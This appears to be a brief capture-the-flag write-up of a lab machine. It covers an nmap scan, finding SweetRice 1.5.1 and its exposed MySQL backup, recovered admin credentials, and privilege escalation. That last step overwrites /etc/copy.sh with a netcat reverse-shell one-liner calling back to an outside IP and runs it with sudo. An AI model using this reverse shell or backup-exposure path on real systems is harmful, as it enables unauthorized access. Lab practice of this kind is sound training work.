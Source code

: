 # nmap

```shell
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-16 13:59 IST
Nmap scan report for 10.10.151.112
Host is up (0.19s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# gobuster

found `/content` which gives details about `SweetRice 1.5.1` looking for the exploit                                                               EDB-ID: 40718

```
Proof of Concept :

You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup

and can access to website files backup from:
http://localhost/SweetRice-transfer.zip
```

found the file`[mysql_bakup_20191129023059-1.5.1.sql](http://10.10.151.112/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql)`

found the login page `http://10.10.151.112/content/as`

credential `manager:Password123`

for privilage escalation  found` backup.pl` which running script from `/etc/copy.sh` after changing copy.sh to  

```
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.50.72 5554 >/tmp/f" > /etc/copy.sh
$ sudo perl /home/itguy/backup.pl
```